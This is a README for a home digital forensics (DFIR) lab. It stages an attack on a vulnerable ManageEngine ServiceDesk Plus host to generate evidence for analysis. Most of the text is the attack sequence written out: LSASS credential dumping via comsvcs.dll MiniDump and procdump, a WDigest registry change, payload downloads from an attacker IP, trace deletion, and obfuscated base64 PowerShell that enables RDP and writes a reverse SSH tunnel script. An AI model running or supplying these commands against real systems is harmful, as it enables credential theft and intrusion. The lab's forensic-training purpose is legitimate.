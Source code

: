 # Building My First DFIR Lab

## Lab Schema

![](LabSchema.png)

## Environment Setup
- Victim Machine: Windows 10 has:
    -  Vulnerable ManageEngine ServiceDesk Plus build 11303 found on the [ManageEngine Archives](https://archives.manageengine.com/service-desk/11303/)
    -  Sysmon for Windows Logging
    -  Wireshark
- Attacker Machine: Kali Linux
- Server: Windows 10

<br>

## Planning
- This Lab will consists of two parts:
    - Part 1: Initial Access & Credentials Dump
    - Part 2: Lateral Movement & Stealing Data

<br>

## Let's Go
### - Part 1: Initial Access & Credentials Dump

#### a. Applying The Exploit:
![image](https://github.com/user-attachments/assets/d39fde33-273d-403c-9195-8dac52d64db1)

![image](https://github.com/user-attachments/assets/e7563550-22d8-4a1b-b8eb-b9b3761d9678)

#### b. Visiting wbsh.jsp

![image](https://github.com/user-attachments/assets/bb3eb98c-0af0-4dd2-ab0b-e478fed02f31)

#### c. Enum
  1. `whoami`
  2. `ipconfig /all`
  3. `systeminfo`
  4. `arp -a`
  5. `tasklist`
lsass.exe                      652 Services                   0     16,848 K
  
  6. `reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential`
#### e. `powershell.exe  Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'`
#### f. `C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 652 C:\Windows\Temp\logctl.zip full`
#### g. Download C:\Windows\Temp\logctl.zip
#### h. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')`
#### k. `C:\windows\temp\calc.exe -accepteula -ma 652 C:\Windows\Temp\logct2.dmp`
#### l. Delete both of them `Remove-Item -Path "C:\Windows\Temp\logct2.dmp", "C:\Windows\Temp\logctl.zip"`

<br>

### - Part 2: Lateral Movement & Stealing Data

> Download Employees.xls FROM THE VICTIM


#### a. Download ekern.exe 
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file.exe', 'C:\windows\temp\ekern.exe')
```

#### b. Check if RDP is Enabled?
```
Get-Service -Name TermService
```

#### c. Enable RDP using the Encoded Command
```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U2V0LVNlcnZpY2UgLU5hbWUgVGVybVNlcnZpY2UgLVN0YXJ0dXBUeXBlIEF1dG9tYXRpYw0KDQpTdGFydC1TZXJ2aWNlIC1OYW1lIFRlcm1TZXJ2aWNlDQoNClNldC1JdGVtUHJvcGVydHkgLVBhdGggJ0hLTE06XFN5c3RlbVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlclwnIC1OYW1lICdmRGVueVRTQ29ubmVjdGlvbnMnIC1WYWx1ZSAw')) | Invoke-Expression}"
```

#### d. Check Again 
```
Get-Service -Name TermService
```
#### e. Write the FXS.bat
```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGJhdGNoQ29udGVudCA9ICdlY2hvIHl8QzpcV2luZG93c1xUZW1wXGVrZXJuLmV4ZSAtc3NoIC1QIDQ0MyAtbCB2MWN0aW0gLXB3IENAbnRfRDNmM25kIC1SIDEyNy4wLjAuMTo0OTgwMDoxOTIuMTY4LjIwLjE0NzozMzg5IDE5Mi4xNjguMS4yJw0KJGJhdGNoRmlsZVBhdGggPSAnQzpcVXNlcnNcVmljdGltXERvY3VtZW50c1xGWFMuYmF0Jw0KU2V0LUNvbnRlbnQgLVBhdGggJGJhdGNoRmlsZVBhdGggLVZhbHVlICRiYXRjaENvbnRlbnQ=')) | Invoke-Expression}"
```
![image](https://github.com/user-attachments/assets/f9039d8d-dcc6-46b8-b690-e453a6b6c517)


#### f. Execute FXS.bat == Establish SSH Connection
```
powershell.exe C:\Users\Victim\Documents\FXS.bat
```

![image](https://github.com/user-attachments/assets/f0cf2a93-277f-4e95-84c3-2cfce7b07578)


![image](https://github.com/user-attachments/assets/ac46e920-278f-4505-a6c4-7b5a4b35cf29)


#### g. Let's Start The RDP, when doing the RDP we will be Making 3 attemps 

![image](https://github.com/user-attachments/assets/088dc184-72d4-4c3a-b5be-a32cf9abc9a4)

> Now We Are Ready!! Let's Start The Lab...
